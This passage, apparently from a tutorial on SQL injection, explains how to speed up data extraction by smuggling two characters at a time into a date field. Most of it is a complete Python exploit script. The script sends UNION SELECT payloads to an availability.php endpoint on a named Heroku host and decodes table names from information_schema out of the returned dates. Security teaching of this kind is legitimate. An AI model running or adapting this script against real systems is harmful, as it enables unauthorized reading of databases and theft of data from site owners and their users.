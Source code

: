 The result of running it is as follows:

![](/img/sql-injection-in-action/p5.png)

One character is leaked at a time, and it takes about 40 seconds to get the complete result.

### Acceleration: Smuggling two characters at a time

Since we can smuggle data as numbers into the date, why not smuggle two characters at a time? To avoid conflicts and make it easy to calculate, the second character needs to be multiplied by 128.

The code is as follows:

``` python
# exploit-ava-2x.py
import requests
import datetime
import json
import urllib.parse
import time

def encode(raw):
  return urllib.parse.quote(raw.encode('utf8'))

host = 'https://od-php.herokuapp.com/sql'
base_time = 1672502400
index = 1
result = ''
field = 'group_concat(table_name)'
fr = " FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'"
fr = encode(fr)
start = time.time()
while True:
  payload = f'''
    ascii(SUBSTRING({field},{index}))*86400
    + ascii(SUBSTRING({field},{index+1}))*86400*128
    + {base_time}
  '''
  response = requests.get(f'{host}/availability.php?id=12345%20union%20select%201%20,{base_time},{encode(payload)},4%20{fr}&start_time=2023-01-01&end_time=2023-01-01')
  index +=2
  if response.ok:
    data = json.loads(response.text)
    d = data['events'][0]['end']
    if d == '2023-01-01':
      break
    else:
      diff = datetime.datetime.strptime(d, "%Y-%m-%d").timestamp() - base_time
      
      diff = int(diff/86400)
      first = diff % 128
      result += chr(first)

      second = int((diff - first) / 128)
      if second == 0:
        break
      result += chr(second)
      print("current:", result)
  else:
    print('error')
    break

print("result:", result)
print(f"time: {time.time() - start}s")
```